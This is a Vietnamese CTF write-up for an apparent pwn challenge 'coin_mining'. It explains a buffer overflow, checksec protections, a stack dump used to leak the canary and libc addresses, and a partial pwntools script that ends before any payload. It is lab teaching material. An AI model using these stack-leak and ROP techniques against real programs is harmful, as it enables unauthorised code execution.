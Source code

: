 ```c
    system("/bin/zsh");
  }
  return 0LL;
}
```
Nhìn vào hàm main, ta thấy có lỗi buffer overflow ở dòng code sau:
```C
read(0, buf, 0x200uLL);
```
Chương trình cấp phát cho biến buf 136 bytes, nhưng lại read tới 512 bytes. Vì vậy ta có thể thực hiện ROP hoặc ret2libc. Nhưng khi checksec thì:
```sh
[*] '/home/lynklee/CTF/HCMUS/pwn/coin_miningg/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```
Chương trình bật cả 4 chế độ bảo vệ, và để có thể chiếm shell, ta cần leak ra được địa chỉ canary cũng như là địa chỉ libc (lí do mình không leak PIE là vì các gadget cần thiết đều đã có sẵn trong libc, chính vì vậy có được libc là đủ). 

Mình leak được libc và canary thông qua offset thứ 15 và 19.
```c
0c:0060│     0x7fffffffdca0 ◂— 0xc2
0d:0068│     0x7fffffffdca8 —▸ 0x7ffff7bf0628 (__exit_funcs_lock) ◂— 0x0
0e:0070│     0x7fffffffdcb0 —▸ 0x7ffff7c109a0 (_dl_fini) ◂— push rbp
0f:0078│     0x7fffffffdcb8 —▸ 0x7ffff7843489 (__cxa_atexit+89) ◂— test rax, rax
10:0080│     0x7fffffffdcc0 ◂— 0xf7e29170
11:0088│     0x7fffffffdcc8 ◂— 0x0
12:0090│     0x7fffffffdcd0 ◂— 0x0
13:0098│     0x7fffffffdcd8 ◂— 0x43785b90b1135d00
14:00a0│ rbp 0x7fffffffdce0 ◂— 0x0
15:00a8│     0x7fffffffdce8 —▸ 0x7ffff7821b97 (__libc_start_main+231) ◂— mov edi, eax
16:00b0│     0x7fffffffdcf0 ◂— 0x1
17:00b8│     0x7fffffffdcf8 —▸ 0x7fffffffddc8 —▸ 0x7fffffffe158 ◂— '/home/lynklee/CTF/HCMUS/pwn/coin_miningg/chall'
18:00c0│     0x7fffffffdd00 ◂— 0x100008000
19:00c8│     0x7fffffffdd08 —▸ 0x55555555528b ◂— endbr64 
1a:00d0│     0x7fffffffdd10 ◂— 0x0
1b:00d8│     0x7fffffffdd18 ◂— 0x7726f80ac803c523
1c:00e0│     0x7fffffffdd20 —▸ 0x555555555140 ◂— endbr64 
1d:00e8│     0x7fffffffdd28 —▸ 0x7fffffffddc0 ◂— 0x1
```
Sau đó thì mình nhập payload để break khỏi vòng while và đến với return address, ta sẽ có được shell.

**Final script**
```py
from pwn import *

e = context.binary = ELF("./chall")
r = e.process()
libc = ELF('./libc.so.6')

#r = remote("coin-mining-8295e6244266c6b3.chall.ctf.blackpinker.com", 443, ssl = True)
gs = """
brva 0x0000000000013c3
brva 0x0000000000013A3
"""

gdb.attach(r, gs)
pause()
```